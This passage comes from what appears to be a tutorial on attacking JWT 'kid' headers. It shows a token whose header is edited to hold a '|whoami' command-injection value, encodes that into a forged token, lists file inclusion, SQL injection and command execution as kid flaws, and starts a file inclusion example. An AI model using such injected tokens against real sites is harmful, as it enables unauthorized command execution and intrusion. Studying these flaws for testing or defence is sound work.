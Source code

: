 ```js
e3R5cDpKV1QsYWxnOkhTMjU2LGtpZDoiMSJ9Cg.eyJ1c2VyIjoiYW5hcyJ9.spzCikhspCdf6XAUci3R4EpJOH6gvZcvkDCVrkGbx7Y
```

Decode it using methods mentioned above.

#### Edited Token

`{typ:JWT,alg:HS256,kid:"1"|whoami}`

Encode it:

`e3R5cDpKV1QsYWxnOkhTMjU2LGtpZDoiMSJ8d2hvYW1pfQo`

#### Final Token

```js
e3R5cDpKV1QsYWxnOkhTMjU2LGtpZDoiMSJ8d2hvYW1pfQo.eyJ1c2VyIjoiYW5hcyJ9.spzCikhspCdf6XAUci3R4EpJOH6gvZcvkDCVrkGbx7Y
```

Just send it to the site using burp repeater, curl or just edit the cookie using inspect element.

### Vulnerabilities in KID

Let's see what is `KID` or `Key Identifier` :

`Kid` is an optional header claim which holds a key identifier, `kid` is useful when we have multiple keys to sign the token and we need to check the right key to verify the signature.
You can try exploit them if they are not properly sanitized.

#### Multiple types of vulnerabilities in kid

  1. Local File Inclusion.

  2. Sql Injection.

  3. Command Execution.

#### Local File Inclusion

Let's Take an Example :

#### Token

```bash
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6IjEifQ.eyJ1c2VyIjoiYW5hcyJ9.spzCikhspCdf6XAUci3R4EpJOH6gvZcvkDCVrkGbx7Y
```

After Decoding `header` :

Note: You can decode base64 using methods mentioned above.

Header:

```json
{
  "typ":"JWT",
  "alg":"HS256",
  "kid":"1"
}
```
